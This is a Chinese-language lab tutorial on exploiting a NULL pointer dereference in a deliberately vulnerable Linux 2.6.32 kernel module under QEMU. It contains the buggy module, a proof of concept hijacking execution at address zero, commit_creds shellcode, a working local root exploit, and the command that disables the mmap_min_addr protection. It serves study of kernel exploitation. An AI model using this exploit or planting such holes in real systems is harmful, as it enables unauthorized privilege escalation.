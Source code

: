 ```yaml
---
title: linux kernel exploitation null dereference
categories:
  - pwn
tags: linux-kernel-exploitation
published: true
---
```


# Introduction

空指针解引用产生的问题，利用方法是映射 0 地址，在 0 地址上放置 shellcode 执行。


# Bug

查看漏洞代码：

```c
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/proc_fs.h>

void (*my_funptr)(void);

int bug1_write(struct file *file, const char *buf, unsigned long len)
{
    my_funptr();
    return len;
}

static int __init null_dereference_init(void)
{
    printk(KERN_ALERT "null_dereference driver init!\n");
    create_proc_entry("bug1", 0666, 0)->write_proc = bug1_write;
    return 0;
}

static void __exit null_dereference_exit(void)
{
    printk(KERN_ALERT "null_dereference driver exit\n");
}

module_init(null_dereference_init);
module_exit(null_dereference_exit);
```

代码中 `my_funptr` 函数指针未初始化，其值为空 (`0x0`)，调用 `my_funptr` 即执行 `0x0` 地址处的指令。

将漏洞代码保存为 `null_dereference.c` ，创建 `Makefile` 写入以下内容：

```c
obj-m := null_dereference.o  
KERNELDR := ~/linux_kernel/linux-2.6.32
PWD := $(shell pwd)  
modules:  
        $(MAKE) -C $(KERNELDR) M=$(PWD) modules  
moduels_install:  
        $(MAKE) -C $(KERNELDR) M=$(PWD) modules_install  
clean:  
        rm -rf *.o *~ core .depend .*.cmd *.ko *.mod.c .tmp_versions
```

`KERNELDR` 填写 linux kernel 代码的目录，有空行的前面必须使用 `Tab`，否则会编译失败。

make 编译完之后将 `null_dereference.o` 放入 `busybox-1.19.4/_install` 目录下，重新生成 `rootfs.img` 文件：

```bash
find . | cpio -o --format=newc > ../rootfs.img
```

# Poc

接下来编译 `poc`：

```c
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>

char payload[] = "\xe9\xea\xbe\xad\x0b"; // jmp 0xbadbeef

int main() {
    mmap(0, 4096, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    memcpy(0, payload, sizeof(payload));

    int fd = open("/proc/bug1", O_WRONLY);
    write(fd, "fanrong", 7);

    return 0;
}
```

执行：

```bash
gcc -static poc.c -o poc
```

编译之后重新生成一次 `rootfs.img`。

启动 qemu，用 `Ctrl+Alt+2` 切换到控制台，执行 `gdbserver tcp::1234`，在本地用 `gdb` 连接：

```bash
gdb-peda$ target remote :1234
Remote debugging using :1234
Warning: not running or target is remote
0xc100955b in ?? ()
gdb-peda$ b *0x0
Breakpoint 1 at 0x0
gdb-peda$ c
Continuing.

```

再用 `Ctrl+Alt+1` 切回去，挂载驱动，执行 poc：

```bash
# insmod null_dereference.ko
...

# ./poc
```

gdb 执行到断电 `0x0` 地址处，查看一下当前指令：

```bash

Breakpoint 1, 0x00000000 in ?? ()
gdb-peda$ pdisass $pc
Dump of assembler code from 0x0 to 0x20::	Dump of assembler code from 0x0 to 0x20:
=> 0x00000000:	jmp    0xbadbeef
   0x00000005:	add    BYTE PTR [eax],al
   0x00000007:	add    BYTE PTR [eax],al
   0x00000009:	add    BYTE PTR [eax],al
   0x0000000b:	add    BYTE PTR [eax],al
   0x0000000d:	add    BYTE PTR [eax],al
   0x0000000f:	add    BYTE PTR [eax],al
   0x00000011:	add    BYTE PTR [eax],al
   0x00000013:	add    BYTE PTR [eax],al
   0x00000015:	add    BYTE PTR [eax],al
   0x00000017:	add    BYTE PTR [eax],al
   0x00000019:	add    BYTE PTR [eax],al
   0x0000001b:	add    BYTE PTR [eax],al
   0x0000001d:	add    BYTE PTR [eax],al
   0x0000001f:	add    BYTE PTR [eax],al
End of assembler dump.

```

成功劫持 `eip`。

# Exploit

我们的目标是 root shell，内核并不能直接调用 `system("/bin/sh")`，但是它可以给予当前进程 root 权限。

```bash
commit_creds ( prepare_kernel_cred (0));
```

获取函数地址：

```bash
# grep commit_creds /proc/kallsyms
...

# grep kernel_cred /proc/kallsyms
...

```

写成 shellcode：

```asm
xor %eax, %eax
call 0xc1069be0
call 0xc1069a40
ret
```

查看其反汇编指令：

```bash
# gcc -o payload payload.s -nostdlib -Ttext=0

# objdump -d payload
...
00000000 <.text>:
   0:	31 c0                	xor    %eax,%eax
   2:	e8 d9 9b 06 c1       	call   c1069be0 <_end+0xc1068bd0>
   7:	e8 34 9a 06 c1       	call   c1069a40 <_end+0xc1068a30>
   c:	c3                   	ret    
```

exploit：

```c
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>

char payload[] = "\x31\xc0\xe8\xd9\x9b\x06\xc1\xe8\x34\x9a\x06\xc1\xc3";

int main() {
    mmap(0, 4096, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    memcpy(0, payload, sizeof(payload));

    int fd = open("/proc/bug1", O_WRONLY);
    write(fd, "foo", 4);

    system("/bin/sh");
}
```

运行 exploit 之前先关闭 `mmap_min_addr` 缓解措施：

```
# sysctl -w vm.mmap_min_addr="0"
```

添加普通用户：

```bash
# touch /etc/passwd
# touch /etc/group
# mkdir /home
# adduser user
# su user
$
```

exploit:

```bash
/ $ ./exploit
/ # id
uid=0 gid=0
/ #
```

# Reference

- [Linux内核漏洞利用（二）NULL Pointer Dereference](http://pwn4.fun/2017/04/19/Linux%E5%86%85%E6%A0%B8%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%EF%BC%88%E4%BA%8C%EF%BC%89NULL-Pointer-Dereference/)

- [Linux 内核漏洞利用教程（二）：两个Demo](https://www.anquanke.com/post/id/85840)

- [Linux-Kernel-Exploit NULL dereference](http://tacxingxing.com/2018/02/22/linuxkernelexploit-null-dereference/#toc_1)

- [Writing kernel exploits](https://tc.gtisc.gatech.edu/bss/2014/r/kernel-exploits.pdf)

- [linux-kernel expoit study (3)---NULL dereference](http://bestwing.me/2017/04/08/write-kernel-exploits-1/)
